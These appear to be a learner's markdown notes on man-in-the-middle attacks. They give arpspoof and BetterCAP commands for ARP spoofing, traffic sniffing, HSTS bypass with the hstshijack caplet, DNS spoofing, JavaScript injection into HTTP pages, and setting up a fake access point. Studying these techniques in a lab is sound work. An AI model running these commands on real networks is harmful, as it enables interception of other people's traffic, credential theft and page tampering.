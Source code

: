 # Man in the middle (MITM) attack
-   hacker is in the middle of the connection

## ARP spoofing
-   ARP links IP addresses to MAC addresses
-   ARP is not secured and not verified
-   send from attacker machine response to gateway/router that he is the victim pc (gateway will link the ip for victim to the attacker mac address) and to the victim pc that he is a gateway (victim pc will link the mac of attacker to gateway ip)
-   possible programs to use: ARP spoof, BetterCAP
-   on attacker machine port forwarding has to be also enabled (to work as a router)

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward # enable forwarding 
```

### ARP spoof
```bash
# run for both targets at once (one against router, one against victim) and keep running for the whole attack
# example to victim (tell to victim I am a router)
arpspoof -i eth0 -t 192.168.72.128 192.168.72.2
# example to router (tell to router I am a victim)
arpspoof -i eth0 -t 192.168.72.2 192.168.72.128
```
-   `-i` interface
-   `-t` target network
-   at the end put ip address we want to be as attacker (router address od victim address)

### BetterCAP
```bash
bettercap -iface eth0 # -iface: interface which we want to run the attacks against
# inside bettercup run commands like "net.probe on" to discover all connected hosts to the network
# run "help command" example: "help net.probe" to show help for the command
```
-   arp spoofing inside BetterCAP:
    -   `net.probe` and `net.recon` has to be running
    -   to modify any option of the command, write `set option value`
```bash
net.probe on
net.recon on #probably already running if so, do not include inside caplet file mentioned bellow. Any error stops running the file
set arp.spoof.fullduplex true # run spoofing on both targets (router and victim) 
set arp.spoof.targets 192.168.72.128 # set targets (router is set automatically in fullduplex setting)
arp.spoof on # run the spoofing
```

#### Capture data while ARP spoofing with BetterCAP
-   BetterCAP can not only capture the data, but also it can analyze them (based on settings) and show the interesting data
```bash
net.sniff on
```

-   after closing BetterCAP everything has to be set manually again or "caplet" file can be created, to automatically run all the commands. Steps:
    1)  create * and write down all the commands
    2)  run BetterCAP with option `-caplets filename.cap`
    3)  there are many couplets predefined for BetterCAP and can be downloaded to specific location `/usr/local/share/bettercap/caplets`. To see them use `caplet.show`

-   for passwords to be seen, http will be seen. Therefor for https we have to make unsecure versions of the web pages. It can be done as bellow:
```bash
set net.sniff.local true # sniff all data even if it thinks it is local data
hstshijack/hstshijack # run caplet for https sniffing, downloaded as mentioned in 3)
```

#### HSTS attacks
-   modern browsers comes with list of pages, which should be loaded only through https
-   check is being done locally
-   only way to bypass this feature the victim will be forwarded to slightly different url (facebook.com = facebook.corn)
-   for facebook, instagram etc. this will only work if the page is opened from bypassed search engine like google.ie.
-   attack is the same as above, just the caplet should be modified to bypass the webpages. The result can be seen in the folder attachments/hstshijack
-   for Chrome works only if Secure DNS disabled (inside chrome settings)

### DNS spoofing
-   doesn't work against HSTS websites
-   routing in local network can be changed as mentioned in ARP spoofing
-   same can be done for routing out of the local network, so the victim can be redirected to any attackers website
-   kali Linux comes with webserver, to be able to run websites
```bash
service apache2 start # start webserver, it is running on same ip as the attacker machine (ifconfig)
```
-   website location is `/var/www/html`
-   to run the attack, run the ARP spoofing described above and:
```bash
set dns.spoof.all true # spoof all DNS requests, if not
set dns.spoof.domains test.com, *.test.com # specify which domains to spoof
dns.spoof on # start the module
```
- `dns.spoof.address` is set by default to interface address

### Basic JS code injection
-   it is possible to modify the response since the attacker is MITM
-   steps to code injection
-   works only on HTTP sites
    1)  again run all the ARP spoofing commands from above need to be run except the `hstshijack/hstshijack`
    2)  create *.js file
    3)  insert the created file path inside `hstshijack` option `set hstshijack.payloads` as `*:/path/to/file.js`
    4)  run command `hstshijack/hstshijack` in bettercap

### BetterCAP UI
-   BetterCAP provides also UI. Just run the bettercap on wanted interface `bettercap -iface eth0`
-   inside bettercap install the UI by `ui.update`
-   run the ui by `http-ui`. No open browser with ip shown inside the cmd
-   default login: user, pass

## Create a fake access point
-   to become a MITM it is also the way
-   how to:
    1)  create a hotspot: to do so, one of he tools is https://github.com/lakinduakash/linux-wifi-hotspot 
    2)  see the communication inside the wireshark / use attacks as previously mentioned

